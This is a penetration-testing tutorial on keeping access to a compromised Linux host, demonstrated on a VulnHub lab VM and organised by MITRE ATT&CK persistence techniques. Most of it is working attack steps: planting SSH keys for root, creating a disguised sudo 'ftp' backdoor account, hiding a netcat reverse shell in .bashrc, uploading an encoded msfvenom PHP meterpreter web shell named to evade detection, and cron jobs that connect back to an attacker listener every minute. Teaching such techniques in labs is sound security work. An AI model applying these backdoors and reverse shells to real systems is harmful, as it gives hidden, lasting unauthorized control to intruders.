



## Before You Begin

In order to follow along with the tools and techniques utilized in this document, you will need to use one of the following offensive Linux distributions:

- Kali Linux

- Parrot OS

The demonstrations outlined in this document were performed against a vulnerable Linux VM that has been configured to teach you the process of exploitation and privilege escalation. It can be downloaded here: https://www.vulnhub.com/entry/raven-1,256/

The following is a list of recommended technical prerequisites that you will need in order to get the most out of this course:

- Familiarity with Linux system administration.

- Familiarity with Windows.

- Functional knowledge of TCP/IP.

- Familiarity with penetration testing concepts and life-cycle.

Note: The techniques and tools utilized in this document were performed on Kali Linux 2021.2 Virtual Machine

## MITRE ATT&CK Persistence Techniques

Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access. Techniques used for persistence include any access, action, or configuration changes that let them maintain their foothold on systems, such as replacing or hijacking legitimate code or adding startup code.

Gaining an initial foothold is not enough, you need to set up and maintain persistent access to your targets.



The techniques outlined under the Persistence tactic provide us with a clear and methodical way of obtaining establishing persistence on the target system.

The following is a list of key techniques and sub techniques that we will be exploring:

- Account Manipulation

    - Persistence via SSH Keys

- Creating a privileged local account

- Unix shell configuration modification

    - Backdooring the .bashrc file

- Web Shell/Backdoor

- Cron jobs

## Scenario

Our objective is to establish persistence on the Linux target after we have obtained an initial foothold.

Note: Some persistence techniques will require “root” privileges in order to be executed successfully.

## Persistence via SSH Keys

The first persistence technique we will be exploiting is the process of generating and using SSH key-based authentication as opposed to password-based authentication. This persistence technique will help maintain access to the target system if the user account passwords have been changed, as this is quite a common practice in companies that have password security policies in place.

Note: This technique requires Public Key Authentication to be enabled in the SSH configuration file, more information see [SSH add keys](/docs/guides/use-public-key-authentication-with-ssh/)

In order to perform this technique, you need to have obtained initial access to the target system and you will require “root” privileges if you wish to modify the SSH configuration file.

1. The first step will involve generating the SSH key-pair, this will need to be done on your Kali VM as this is the system we will be using for authentication via SSH. This can be done by running the following command:

        ssh-keygen

1. As highlighted in the following screenshot, this will prompt you to specify the storage location for the public and private keys that will be generated, as well as a passphrase for the SSH key. In this case, we will use the default options.

    

1. After generating the public and private key pair, you will need to copy the content of the public key (id_rsa.pub) you generated and add it to the “authorized_keys” file in the target user account’s .ssh directory on the target system. In this case, we will be adding the public key to the “authorized_keys” file of the “root” user located in `/root/.ssh/authorized_keys`.

    Note: If the .ssh directory and “authorized_keys” file don’t exist, you will need to create them, this can be done by running the following commands:

        mkdir ~/.ssh

        touch ~/.ssh/authorized_keys

1. After pasting in the contents of the public key you generated into the “authorized_keys” file, it should look similar to the screenshot shown below.

    

1. It is also recommended to apply the necessary permissions to the .ssh directory and “authorized_keys” file, this can be done by running the following commands:

        chmod 700 /root/.ssh
        chmod 600 /root/.ssh/authorized_keys

1. As shown in the following screenshot, after adding the public key you generated, you will now be able to authenticate to the target via SSH without providing a password.

    

    We have now been able to successfully set up persistent access via SSH keys and consequently mitigating any future authentication failures caused by changed passwords.

## Creating A Privileged Local Account

The next persistence technique we will be exploring is the process of creating a privileged local account for backdoor access, this technique can be used to maintain access to a target system if a user account password is changed, however, creating a local user account may lead to detection on servers that have fewer user and service accounts as a new user will easily be noticed.

In order to evade detection, we will create a user account with a name that is clandestine, in this case, we will be creating a user account named “ftp” in order to blend in as a service account.

Note: You will require “root” privileges in order to create a new user account on Linux systems.

1. We can create the user account on the target by running the following command:

        useradd  -m -s /bin/bash ftp

1. After creating the account, we will need to add the user to the “sudo” group, this will provide the user with administrative privileges, this can be done by running the following command:

        usermod -aG sudo ftp

1. After adding the user account to the “sudo” group, we will need to setup a password for the account, this can be done by running the following command:

        passwd ftp

1. After specifying the password, we can list out the contents of the /etc/passwd file to confirm that the user account has been added.

    

1. You can now authenticate with the new user account via SSH password authentication, alternatively, you can also add the ssh public key we generated in the first section to the “authorized_keys” file in the user account’s home password.

1. After authenticating with the server via SSH, we can confirm that the user account has administrative privileges by using the sudo command.

    

    As shown in the preceding screenshot, the user account has administrative privileges and can run any command on the system without accessing or interacting with a “root” account.

    This account can be used for backdoor access whenever you want to avoid using the “root” account or any other legitimate user accounts on the target system and ensures that you have overt access to the target.

## Unix Shell Configuration Modification

This persistence technique will involve adding a bash reverse command that will connect back to our netcat listener in a user account’s .bashrc file. The .bashrc file is a config file that is used to customize bash and is executed when a user logs in with the bash shell.

1. The first step will involve opening the .bashrc file with a text editor This can be done by running the following command:

        nano ~/.bashrc

1. After opening the file with a text editor, we can add a simple bash command that will provide us with a reverse shell whenever a user logs in. This can be done by adding the following command:

        nc -e /bin/bash <KALI-IP> <PORT> 2>/dev/null &

    As shown in the following screenshot, the command should contain your Kali IP and port netcat is listening on.

    

1. After adding the bash command to the .bashrc file, we can set up a listener with Netcat on Kali by running the following command:

        nc -nvlp <PORT>

1. Whenever a user logs in to the user account, the command in the .bashrc file will be executed and will consequently provide you with a reverse shell on the netcat listener as shown in the following screenshot.

    

    We have now been able to set up persistence via the .bashrc file, this technique has the added advantage of being harder to detect as the reverse shell command is hidden within a legitimate configuration file.

## Persistence Via Web Shell

This persistence technique involves generating and uploading a PHP web shell to the target server. Given that the target server is running the LAMP stack, we can create a PHP meterpreter payload and upload it to the web server as a backdoor.

1. The first step will involve generating the PHP meterpreter payload with Msfvenom, this can be done by running the following command:

        msfvenom -p php/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=<PORT> -e php/base64 -f raw > backup.php

    In order to evade detection, we will save the payload with a filename of “backup.php”.

1. Once you have generated the payload, you will need to modify it by adding the PHP tags so that the script is executed correctly as shown in the following screenshot.

    

1. We can now set up the listener with Metasploit  by running the following commands:

        msfconsole
        use multi/handler
        set payload php/meterpreter/reverse_tcp
        set LHOST <KALI-IP>
        set LPORT <PORT>
        run

1. The next step will involve uploading the PHP shell that we just generated to the web server, this can be done by setting up a local web server on the Kali VM:

        sudo python -m SimpleHTTPServer 80

1. Then, download it on the target:

        wget http://<KALI-IP>/backup.php

    In this case, we will be uploading the “backup.php” file to the root of the webserver under the /var/www/html directory as shown in the following screenshot.

    

1. We can retrieve a meterpreter session on the target by navigating to the “backup.php” file on the webserver by accessing the following URL with your browser:

        http://<SERVER-IP>/backup.php

1. Accessing the through the browser should execute the PHP code and consequently provide you with a meterpreter session on your listener as shown in the following screenshot.

    

    We have been able to successfully set up persistence by uploading a meterpreter web shell that allows us to maintain access to the target server without authenticating via SSH.

## Persistence Via Cron Jobs

This technique involves leveraging Cron jobs to maintain persistent access to the target system by executing a reverse shell command or a web shell repeatedly on a specified schedule.

Cron is a time-based service that runs applications, scripts, and other commands repeatedly on a specified schedule.

Cron provides you with the ability to run a program, script, or command periodically at whatever time you choose, these Cron jobs are then stored in the “crontab” file.

1. We can add a cron job on the target system by editing the crontab file, this can be done by running the following command on the target system:

        crontab -e

1. We can now add a new cron job that will execute a netcat command every minute, this can be done by adding the following line to the crontab file:

        * * * * * nc <KALI-IP> <PORT> -e /bin/sh

    As shown in the following screenshot, this cron job will connect to a netcat listener every minute.

    

1. After adding the cron job, you will need to save the file.

1. We can now set up our netcat listener by running the following command on Kali:

        nc -nvlp <PORT>

    After one minute, the cron job will be executed and you should receive a reverse shell on your netcat listener as shown in the following screenshot.

    

1. Alternatively, instead of using netcat to obtain a reverse shell, we can create a cron job that executes the PHP meterpreter shell we created and uploaded in the previous section. This can be done by adding the following line to the crontab file:

        * * * * * php -f /var/www/html/backup.php

    As shown in the following screenshot, after one minute you should receive a meterpreter session.

    

    We have now been able to successfully setup persistence on the target server by creating a cron job that connects back to our listener, additionally, we were also able to setup a cron job that executes the PHP meterpreter shell we uploaded to the target server.
